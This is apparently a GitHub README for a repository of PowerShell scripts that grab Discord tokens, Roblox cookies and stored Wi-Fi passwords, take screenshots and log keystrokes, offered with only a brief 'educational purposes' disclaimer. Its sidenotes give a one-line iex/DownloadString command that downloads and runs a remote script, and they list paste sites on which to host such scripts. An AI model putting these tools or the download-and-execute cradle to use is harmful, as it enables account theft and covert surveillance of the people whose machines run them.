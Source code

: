 # powershell-scripts
An array of PowerShell scripts I wrote for educational purposes. Don't misuse these.

Some of these scripts are parts of code from other developers so I will credit them where I can

Includes
 - Uploading to Imgur in powershell
 - Grabbing Discord Tokens with Powershell
 - Getting stored wifi passwords with powershell
 - Screenshotting the users screen in powershell
 - Grabbing Roblox Cookies with powershell
 - A Powershell Keylogger

## Credit

Discord Webhooks in Powershell | [gngrninja](https://github.com/gngrninja/blog/blob/master/DiscordWebhook/embeds.ps1)

Discord Token Grabbing in Powershell | [F1sk](https://github.com/FiskDk/PowerShell-Discord-Token-Grabber)

Getting Images from Clipboard in Powershell | [thom schumacher](https://stackoverflow.com/questions/55215482/save-image-from-clipboard-using-powershell)

Keylogger Base | [dasgoll](https://gist.github.com/dasgoll/7ca1c059dd3b3fbc7277)

Uploading Images to Imgur in Powershell | [Deleted Reddit User](https://www.reddit.com/r/PowerShell/comments/2i0t6f/comment/ckzwori/?utm_source=share&utm_medium=web2x&context=3)

Note: All of these have been web archived.


## Helpful Powershell Sidenotes

```rundll32 url.dll,FileProtocolHandler 'url here'```

This opens a url in the default browser

```iex ((New-Object System.Net.WebClient).DownloadString('url here'))```

downloads a powershell script from a raw text hosting site 

[pastebin](https://pastebin.com/) use unlisted mode if your uploading a script with sensitive information included

[ghostbin](https://ghostbin.com/) seems to delete scripts occasionally

[rentry.co](https://rentry.co/)

[dpaste.com](https://dpaste.com/)

[hastebin](https://www.toptal.com/developers/hastebin/)

[paste-bin.xyz](https://paste-bin.xyz/)

[snippet.host](https://snippet.host/)

[dpaste.org](https://dpaste.org/)

[textbin.tk](https://textbin.tk/)

[textbin.pl](https://textbin.pl/)


